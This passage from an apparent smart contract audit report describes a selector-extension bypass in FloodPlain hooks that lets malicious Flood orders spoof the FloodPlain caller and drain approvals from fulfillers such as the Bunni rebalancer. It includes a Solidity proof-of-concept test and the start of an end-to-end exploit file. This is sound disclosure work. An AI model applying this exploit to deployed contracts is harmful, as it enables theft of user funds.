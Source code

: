 However, the `SELECTOR_EXTENSION` constant simply acts as a sort of "magic value" as it does not actually contain the hashed function signature. As such, assuming fulfillers validate selector extension argument against this expected value, this only prevent calls using the `IFulfiller::sourceConsiderations` interface and not `IFulfiller.sourceConsideration`. Therefore, a malicious Flood order can be fulfilled and used to target a victim fulfiller by executing the arbitrary external call during the pre/post hooks. If the caller is not explicitly validated, then it is possible that this call will be accepted by the fulfiller and potentially result in dangling approvals that can be later exploited. Additionally, this same selector extension is passed to the `IFulfiller::sourceConsideration` callback in both overloaded versions of `FloodPlain::fulfillOrder` when this should ostensibly be `bytes28(keccak256("IFulfiller.sourceConsideration"))`.

While the code is not currently public, this is the case for the Bunni rebalancer that simply only checks that `msg.sender` is the Flood contract and ignores the`selectorExtension` and `caller` parameters. As a result, it can be tricked into decoding an attacker-controlled address to which an infinite approval is made for the offer token. The malicious Flood order can freely control both the Flood order and accompanying context, meaning that they can drain any token inventory held by the rebalancer.

**Impact:** Malicious Flood orders can spoof the `FloodPlain` address by invoking the `IFulfiller::sourceConsideration` callback during execution of the pre/post hooks.

**Proof of Concept:** The following test can be added to the Flood.bid library tests in `Hooks.t.sol`:

```solidity
function test_RevertWhenSelectorExtensionClashSourceConsideration(
        bytes4 data0,
        bytes calldata data2,
        bytes32 orderHash,
        address permit2
    ) public {
        vm.assume(permit2 != hooked);
        bytes28 data1 = bytes28(keccak256("IFulfiller.sourceConsideration")); // note the absence of the final 's'
        bytes memory data = abi.encodePacked(data0, data1, data2);

        // this actually succeeds, so it is possible to call sourceConsideration on the fulfiller from the hook
        // with FloodPlain as the sender and any arbitrary caller before the consideration is actually sourced
        // which can be used to steal approvals from other contracts that integrate with FloodPlain
        hookHelper.execute(IFloodPlain.Hook({target: address(0x6969696969), data: data}), orderHash, permit2);
    }
```

And the standalone test file below demonstrates the full end-to-end issue:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "test/utils/FloodPlainTestShared.sol";

import {PermitHash} from "permit2/src/libraries/PermitHash.sol";
import {OrderHash} from "src/libraries/OrderHash.sol";

import {IFloodPlain} from "src/interfaces/IFloodPlain.sol";
import {IFulfiller} from "src/interfaces/IFulfiller.sol";
import {SELECTOR_EXTENSION} from "src/libraries/Hooks.sol";

import {IERC20, SafeERC20} from "@openzeppelin/token/ERC20/utils/SafeERC20.sol";
import {Address} from "@openzeppelin/utils/Address.sol";

contract ThirdPartyFulfiller is IFulfiller {
    using SafeERC20 for IERC20;
    using Address for address payable;
```